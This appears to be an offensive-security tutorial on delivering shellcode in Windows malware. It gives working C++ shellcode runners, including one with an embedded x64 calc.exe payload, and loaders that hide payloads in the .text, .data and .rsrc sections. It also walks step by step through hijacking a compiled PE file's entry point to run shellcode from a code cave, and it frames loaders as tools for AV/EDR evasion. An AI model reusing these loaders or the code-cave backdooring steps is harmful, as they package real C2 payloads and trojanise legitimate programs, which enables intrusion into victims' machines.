

# ☠ Shellcode Placement

## <mark style="color:red;">Shellcode Loaders / Wrappers</mark>

As the name suggests, a loader is a program that loads a specific payload in memory ( could be its own memory or memory of another process, A.K.A: code injection). this payload is usually a C2 agent shellcode in an encrypted / encoded format which gets decrypted / decoded before being loaded into memory. so basically a loader is just a wrapper that has the main purpose of delivering the actual malware, its also a template for implementing various AV/EDR evasion checks and techniques since its the first stage of a malware attack and will touch the disk and leave some artifacts before and after execution.&#x20;

### <mark style="color:orange;">Vanilla  C++ Shellcode Runner</mark>

**This is the simplest way to run shellcode on a system, the execution flow is like this:**

1. **Store the shellcode in a section of your code (.text, .data, .rsrc, etc.)**
2. **Allocate memory in the current process memory address space (more techniques will be discussed in other sections)**
3. **Copy the shellcode in the allocate space**
4. **Execute the shellcode**

<mark style="color:green;">**Each step of the way can me customized and be more complicated to avoid detection, but here we start with the basics.**</mark>

here is an example of a simple python script that converts a binary file to shellcode format which is then used by a shellcode loader. the binary file can be a raw shellcode format generated by a C2 framework:&#x20;


```python
import sys

def read_binary_file(file_path):
    with open(file_path, 'rb') as f:
        binary_data = f.read()
    return binary_data

def print_shellcode(shellcode):
    for byte in shellcode:
        print("0x{:02X},".format(byte), end='')

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 bin_to_shellcode.py <file_path>")
        return
    
    file_path = sys.argv[1]
    shellcode = read_binary_file(file_path)
    print_shellcode(shellcode)

if __name__ == '__main__':
    main()
```



The output includes some null bytes (string terminator character) that would break the execution, these are omitted by the C++ loader code.


and here is the code for the C++ vanilla shellcode loader:


```cpp
#include <stdio.h>
#include <string.h>
#include <windows.h>

const unsigned char shellcode[] = {
0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,0x4A,0x4D,0x31,0xC9,0x48,0x31,0xC0,0xAC,0x3C,0x61,0x7C,0x02,0x2C,0x20,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0xE2,0xED,0x52,0x41,0x51,0x48,0x8B,0x52,0x20,0x8B,0x42,0x3C,0x48,0x01,0xD0,0x8B,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xC0,0x74,0x67,0x48,0x01,0xD0,0x50,0x8B,0x48,0x18,0x44,0x8B,0x40,0x20,0x49,0x01,0xD0,0xE3,0x56,0x48,0xFF,0xC9,0x41,0x8B,0x34,0x88,0x48,0x01,0xD6,0x4D,0x31,0xC9,0x48,0x31,0xC0,0xAC,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0x38,0xE0,0x75,0xF1,0x4C,0x03,0x4C,0x24,0x08,0x45,0x39,0xD1,0x75,0xD8,0x58,0x44,0x8B,0x40,0x24,0x49,0x01,0xD0,0x66,0x41,0x8B,0x0C,0x48,0x44,0x8B,0x40,0x1C,0x49,0x01,0xD0,0x41,0x8B,0x04,0x88,0x48,0x01,0xD0,0x41,0x58,0x41,0x58,0x5E,0x59,0x5A,0x41,0x58,0x41,0x59,0x41,0x5A,0x48,0x83,0xEC,0x20,0x41,0x52,0xFF,0xE0,0x58,0x41,0x59,0x5A,0x48,0x8B,0x12,0xE9,0x57,0xFF,0xFF,0xFF,0x5D,0x48,0xBA,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8D,0x8D,0x01,0x01,0x00,0x00,0x41,0xBA,0x31,0x8B,0x6F,0x87,0xFF,0xD5,0xBB,0xF0,0xB5,0xA2,0x56,0x41,0xBA,0xA6,0x95,0xBD,0x9D,0xFF,0xD5,0x48,0x83,0xC4,0x28,0x3C,0x06,0x7C,0x0A,0x80,0xFB,0xE0,0x75,0x05,0xBB,0x47,0x13,0x72,0x6F,0x6A,0x00,0x59,0x41,0x89,0xDA,0xFF,0xD5,0x63,0x61,0x6C,0x63,0x2E,0x65,0x78,0x65,0x00
};

int main() {
    // Allocate memory for shellcode in current process address space
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (exec_mem == NULL) {
        printf("Failed to allocate memory.\n");
        return 1;
    }

    // Copy shellcode to allocated memory
    memcpy(exec_mem, shellcode, sizeof(shellcode));

    // Execute the shellcode
    // declares a function pointer named exec_mem (takes no args and has no return)
    // casts exec_mem to a void function pointer type
    // calls the function that exec_mem points to
    ((void (*)())exec_mem)();

    // Free the allocated memory
    VirtualFree(exec_mem, 0, MEM_RELEASE);

    return 0;
}

```


by running the python script and placing the shellcode into the "shellcode" array we can use MSVC compiler to compile the code:



```c
// @ECHO OFF
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcshell-runner.cpp /link /OUT:shell-runner.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```



you can use VisualStudio and create a new C++ project and simply click "build" if you dont want to use the build tools directly.


`((void (*)())exec_mem)();` casts the memory address stored in `exec_mem` as a function pointer to a function with a return type of `void` and no parameters, and then immediately calls that function.

In the context of a shellcode runner, this is used to execute the shellcode stored in the allocated memory. The memory containing the shellcode is treated as if it were a function, and by calling it as a function, the shellcode's instructions are executed.


***

## <mark style="color:red;">Shellcode Placement</mark>

PE (Portable Executable) file format has many sections and some of them can be used for storing our shellcode.&#x20;



### <mark style="color:orange;">.TEXT Section</mark>

&#x20;in the context of the C shellcode runner provided earlier, where the shellcode is defined inside the `main` function, the shellcode is indeed stored in the `.text` section of the PE executable. The `.text` section is typically used to store executable code. to put your payload in .text section, simply define the shellcode array inside one of the functions defined in the program.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


// .text section is the body of any function declearation
int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// 4 byte payload
	// placed in PE .text section
	unsigned char payload[] = {
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
	};


	unsigned int payload_len = 4;
	
	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

### <mark style="color:orange;">**.DATA Section**</mark>

if the payload is declared outside of all functions it will be saved in the data section. this section is used for global and predefined variables in the program.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// 4 byte payload
// declared outside all functions so its included in the PE .data section 
unsigned char payload[] = {
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
};
unsigned int payload_len = 4;


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

### <mark style="color:orange;">**.RSRC Section**</mark>

the `.rsrc` section refers to the resource section. this section stores various types of resources that an executable or DLL file might need at runtime, such as icons, bitmaps, strings, dialogs, version information, and more.

to store the payload in resources section, we have to add our custom resource file to the VS project:


Right click on the `Resource Files` in Solution Explorer and select `Add > Resource:`

<figure><figcaption></figcaption></figure>

Click `Import` and select the resource you want to include. In my case - it's the `resource.bin`:

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call (shown later in the code):

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

If you compile your program now and inspect it with resource hacker, you can now see the shellcode you have just embedded as a PE resource.

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:


```cpp
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_RESOURCE_BIN1 - is the resource ID - which contains ths shellcode
	// RESOURCE_BIN is the resource type name we chose earlier when embedding the resource.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_RESOURCE_BIN1), L"RESOURCE_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

	void* exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

### <mark style="color:orange;">ICON Images</mark>

icons are stored in the resources section of the PE file. since icons include images and images can have different entropy (very high and very low), this is a good place for hiding our shellcode.

here is an interesting blog post on this topic:



the PoC is on github, you may need to change it to match your shellcode size and your color of choice:




This code only works for shellcode size < 765 bytes.



***

## <mark style="color:red;">Code Cave</mark>

Abusing code caves is an old technique to inject malicious shellcode (or any arbitrary instructions) into an already compiled PE file.&#x20;

A code cave is an empty address space of PE file that  is used for  purposes such as:

* Patch Points
* Alignment and Padding
* Debugging and Testing Code
* Optimization Techniques
* Anti-analysis and anti-reversing techniques
* Historical Reasons

While developers do not intentionally leave code caves in their PE files, these unused or underutilized code regions can exist in the compiled binaries. It's essential to distinguish between unintentional code caves that arise during the development process and those introduced maliciously by attackers in the context of malware.

**so code caves are a nice place for hiding our shellcodes. essentially, there are 2 ways for hiding shellcode in code caves:**

1. **Choosing a PE file that has already been compiled with a suitable coed cave which is large enough to hold our shellcode and a few return instructions**
2. **Modifying the target PE file to add a new PE section to use as our code cave.**


<mark style="color:red;">**Adding a new section to a binary (specially if the binary is signed) is a BAD idea. AV/EDR products will probably flag the file on sight.**</mark>


***

### <mark style="color:orange;">Using Existing Code Cave</mark>

first we have to find the code cave in binary. to do this open the file in debugger and find the free allocated space with no instructions in the address space:

<figure><figcaption></figcaption></figure>

#### write down the address of the beginning of the code cave for later.

this is where we put our payload (shellcode). we have to change the flow of the program to execute our shellcode before the program itself.

to do this we have to call the entry point of our shellcode section in the beginning of the disassembly so we have to change some bytes and instructions to add our call, we have to move these instructions somewhere else so that we can execute the original program flow after shellcode execution.

to make a jump to our code cave we have to replace the first instructions with a `jmp` instruction. copy a few instructions from the beginning and save the values for later, replace them with a `jmp` instruction.

<figure><figcaption></figcaption></figure>

now edit the first push instruction :

<figure><figcaption></figcaption></figure>

write a jmp instruction to the code cave by selecting the address and pressing the space key:

<figure><figcaption></figcaption></figure>

clicking on the new jump instruction will lead us to the beginning of the code cave. since our shellcode will change the state of the stack and registers we have to save the current values on the stack and restore them after our payload is executed, this way we wont lose anything when switching back to the normal application flow.

go to the address pointed to by jmp instruction and save the stack and register values by adding 2 instructions:


pushad → push all register values on to the stack


<figure><figcaption></figcaption></figure>


pushfd → push all flag values on to the stack


<figure><figcaption></figcaption></figure>


The target binary file in this scenario is a 32bit application, if your target binary is 64bit, the `pushad` and `pushfd` instructions should be replaced with equivelant instructions.

since x86\_64 bit CPUs dont support these instructions you will have to push and pop register values one by one:\


```
pushfq     ; Push 64-bit RFLAGS register
push rax
push rcx
push rdx
push rbx
push rsp
push rbp
push rsi
push rdi
push r8
push r9
push r10
push r11
```

```
=======================================================

pop r11
pop r10
pop r9
pop r8
pop rdi
pop rsi
pop rbp
pop rsp
pop rbx
pop rdx
pop rcx
pop rax
popfq      ; Pop 64-bit RFLAGS register
```


now select some unallocated addresses to paste our shellcode in the code cave (the free space should be equal or more than the payload size)

<figure><figcaption></figcaption></figure>

paste the shellcode in the windows:

<figure><figcaption></figcaption></figure>


after saving the changes our work with the shellcode is done, now we have to find a way to give back the control to the program original execution flow. to do this we have to find the exit call in our shellcode and modify it to make a jump back to where it started and restore the register and flags values we saved on the stack.

set a breakpoints in call instructions of the shellcode and start debugging till you find the call instruction responsible for exiting the program:

<figure><figcaption></figcaption></figure>


as you can see the `call ebp` instruction executed the shellcode so probably the next call instruction is the one that exits the program.

this last call will exit the program:

<figure><figcaption></figcaption></figure>

we can modify this to jump to another section of the cave to restore register values and the first instructions that we changed at the beginning and the jump to the normal execution flow:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

now restore register values:

```
popfd
popad
```

<figure><figcaption></figcaption></figure>

restore the replaced instructions (until the call instruction)

<figure><figcaption></figcaption></figure>

now we have to jump to the call instruction address:

<figure><figcaption></figcaption></figure>

this will execute the program normally after shellcode execution.



